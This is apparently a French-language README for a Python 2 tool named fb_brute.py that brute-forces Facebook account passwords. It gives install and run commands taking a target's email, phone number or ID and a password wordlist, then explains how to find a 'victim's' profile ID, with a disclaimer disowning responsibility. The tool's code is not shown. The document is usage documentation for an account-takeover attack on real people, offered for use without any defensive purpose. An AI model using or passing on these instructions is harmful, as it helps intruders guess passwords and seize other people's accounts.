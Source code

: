 **programme python2 qui fait de la brute force de compte facebook**
**pas responssable de vos acte**

```comment installer les requirement
python2 -m pip install -r requirement.txt
```

``` comment l'utliser
python2 fb_brute.py -u "Email ou numero de tel ou id" -p list_de_mot_pass.txt
```
#si vous ne savez pas quel est l'identifiant de la victime**

**ouvri un navigateur**
**se connect sur facebook**
**aller sur le profiles de la victime**
**et l'identifiant apparait sur la bar de la navigateur**

```identifiant=facebook*************/id=1000000*******``

